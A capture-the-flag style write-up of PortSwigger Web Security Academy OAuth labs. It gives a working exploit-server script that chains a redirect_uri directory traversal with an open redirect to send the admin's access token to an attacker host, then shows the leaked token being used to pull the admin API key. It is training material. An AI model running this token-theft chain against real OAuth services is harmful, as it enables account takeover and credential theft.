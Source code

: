 ```
Body:

<script>
  if (!document.location.hash) {
    window.location = 'https://oauth-ac741fa11eeafab0c02e12f8026c00fb.web-security-academy.net/auth?client_id=rjyfyzxtcqrgt1ucdr7qg&redirect_uri=https://acba1f891e46fa9cc0c8123200590055.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-ac5a1f0d1e28fa3bc00512b901b80067.web-security-academy.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
  } else {
    window.location = '/?'+document.location.hash.substr(1)
  }
</script>
```

**Exploit Server -> Access log**

`"GET /?access_token=Am_o_8JiN3AuNX4ARCLl7FEOJEN-qi0HGwSJ1UxkEl-&expires_in=3600&token_type=Bearer&scope=openid%20profile%20email HTTP/1.1"`

**Solution:**

```
GET /me HTTP/1.1
Host: oauth-ac741fa11eeafab0c02e12f8026c00fb.web-security-academy.net
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="96"
Authorization: Bearer Am_o_8JiN3AuNX4ARCLl7FEOJEN-qi0HGwSJ1UxkEl-

Response:

{"sub":"administrator","apikey":"464tt2959UoTEHpi9syf2A3ab25d1esC","name":"Administrator","email":"administrator@normal-user.net","email_verified":true}
```

### Lab: Stealing OAuth access tokens via a proxy page

This lab uses an OAuth service to allow users to log in with their social media account. Flawed validation by the OAuth service makes it possible for an attacker to leak access tokens to arbitrary pages on the client application.

To solve the lab, identify a secondary vulnerability in the client application and use this as a proxy to steal an access token for the admin user's account. Use the access token to obtain the admin's API key and submit the solution using the button provided in the lab banner.

The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

There is directory traversal as last lab on redirect\_uri parameter.

`GET /auth?client_id=dkee764030032tgvfonrs&redirect_uri=https://ac041f581ee6ec0ac0ec123800d40062.web-security-academy.net/oauth-callback/../&response_type=token&nonce=-913949094&scope=openid%20profile%20email HTTP/1.1`

We found that request when we was discovering the website.

```
GET /post/comment/comment-form HTTP/1.1

In the response:
parent.postMessage({type: 'onload', data: window.location.href}, '*')
```
